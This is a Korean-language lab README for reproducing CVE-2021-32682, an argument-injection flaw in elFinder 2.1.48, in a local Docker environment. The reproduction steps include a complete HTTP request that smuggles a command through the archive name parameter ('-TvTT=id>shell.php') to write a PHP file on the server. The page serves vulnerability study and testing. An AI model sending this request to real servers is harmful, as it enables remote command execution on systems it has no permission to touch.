 # elFinder ZIP 인수 삽입이 명령어 삽입으로 이어짐(CVE-2021-32682)

[한국어 버전(Korean version)]

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자입니다.

elFinder 2.1.48 버전과 이전 버전에서 Arguments Injection이 발견되었습니다. 이 취약점을 통해 최소한의 구성이라도 elFinder PHP connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다. 이 문제는 2.1.59에서 패치되었습니다. 반드시 인증 없이 노출되게 하지 마세요.

참고 자료:

* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48를 시작할려면 다음 명령을 실행하십시오:<br>
<pre><code>docker compose up -d</code></pre>
서버가 시작된 후 <code>http://your-ip:8080</code>에서 elFinder의 메인 페이지를 볼 수 있습니다.

## 취약점 재현
먼저, 이 취약점 흐름을 위해 2개의 파일을 준비헤야됩니다.<br><br>
<code>1.txt</code>라는 일반 텍스트 파일을 만듭니다.:<br><br>
![1](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/1.png)

마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 <code>2.zip</code>로 수정합니다.:

![2](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/2.png)

<code>1.txt</code>와 <code>2.zip</code>가 여기 준비되었습니다.:

![3](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/3.png)

그 다음, 임의의 명령을 실행하기위해 아래의 요청을 보냅니다.
<pre><code>GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


</code></pre>

